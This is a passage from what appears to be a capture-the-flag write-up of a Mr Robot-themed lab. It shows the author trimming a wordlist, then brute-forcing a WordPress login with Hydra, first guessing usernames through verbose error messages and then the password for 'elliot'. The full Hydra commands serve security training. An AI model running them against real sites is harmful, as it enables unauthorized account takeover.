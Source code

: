 This does get rid of a lot of noise. This merely concatenates the: unique lines plus the unique values where there were multiple entries. Makes a big difference in the number of lines in our wordlist. On my workstation, I was getting between 845 and 1,745 attempts per minute. So, doing the math, here's how long this might take:

| File          |     Size |   Lines | Est (@845/min) | Est (@1745/min) |
| ------------- | -------: | ------: | :------------: | :-------------: |
| `fsocity.dic` | 7,075 KB | 858,160 |     17 hrs     |      8 hrs      |
| `new.txt`     |    94 KB |  11,451 |    13 mins     |    6.5 mins     |


So, `new.txt` is the reorganized file I'll be working with. Next, I didn't really think of this. I was assuming based on the TV show, the username might be "elliot". However, since this Wordpress installation shows verbose messages, we can use `hydra` to test for possible usernames and for possible passwords.

You might remember for Hydra that:

<fieldset>
<legend>Hydra Arguments</legend>
<dl>
<dt><code>-L</code></dt>
<dd>Use a wordlist for the username (e.g. <code>hydra -L ./wordlist.txt ...</code>).</dd>
<dt><code>-l</code></dt>
<dd>Use a single, specific username (e.g. <code>hydra -l jdoe ...</code>).</dd>
<dt><code>-P</code></dt>
<dd>Use a wordlist for the password (e.g. <code>hydra -P ./wordlist.txt ...</code>).</dd>
<dt><code>-p</code></dt>
<dd>Use a single, specific password (e.g. <code>hydra -p password ...</code>)</dd>
</dl>
</fieldset>


#### Hydra for usernames
Keeping that in mind, we want to first use a **fixed password** and our **wordlist for potential usernames**:

```bash
hydra -L ./new.txt -p test \
    $TARGET http-post-form \
    "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -I 2>&1 | tee $ROOM/hydra-usernames.log
```

#### Hydra for passwords
From this effort, we see the username "Elliot" in various casing, so it's probably case-insenstive. Now, let's flip it around, use **"elliot" for a username** and the **wordlist for the password**:

```bash
hydra -l elliot -P ./new.txt \     
    $TARGET http-post-form \
    "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered" -I 2>&1 | tee $ROOM/hydra-passwords.log
```

It took about :15 minutes but we were able to get the password:
